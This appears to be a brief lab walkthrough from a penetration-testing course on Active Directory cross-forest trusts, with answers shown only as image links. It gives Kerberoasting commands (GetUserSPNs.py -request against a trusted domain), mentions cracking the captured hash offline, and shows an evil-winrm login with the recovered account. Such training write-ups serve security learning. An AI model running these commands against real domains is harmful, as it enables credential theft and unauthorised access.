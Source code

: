 # Content

- [Content](#content)
  - [Question 1](#question-1)
    - [The way to hack](#the-way-to-hack)
    - [Answer](#answer)
  - [Question 2](#question-2)
    - [The way to hack](#the-way-to-hack-1)
    - [Answer](#answer-1)
  - [Question 3](#question-3)
    - [The way to hack](#the-way-to-hack-2)
    - [Answer](#answer-2)
  
## Question 1

### The way to hack

- I use command
- Payload:
  - [GetUserSPNs.py](http://getuserspns.py/) -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley
  ![Picture](../../Image/Breaking%20Down%20Boundaries/7.png)

### Answer

![Picture](../../Image/Breaking%20Down%20Boundaries/8.png)

## Question 2

### The way to hack

- I run command.
- Payload:
  - `GetUserSPNs.py -request -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley`
  ![Picture](../../Image/Breaking%20Down%20Boundaries/9.png)
- After i have the hash then i just crack it normally.

### Answer

![Picture](../../Image/Breaking%20Down%20Boundaries/10.png)

## Question 3

### The way to hack

- I config file /etc/resolv.conf.
  ![Picture](../../Image/Breaking%20Down%20Boundaries/11.png)
- After that, i use evil-winrm to ssh to the windows.
- Payload:
  - evil-winrm -i 172.16.5.238 -u sapsso to log in to the domain and get the flag.

### Answer

![Picture](../../Image/Breaking%20Down%20Boundaries/12.png)
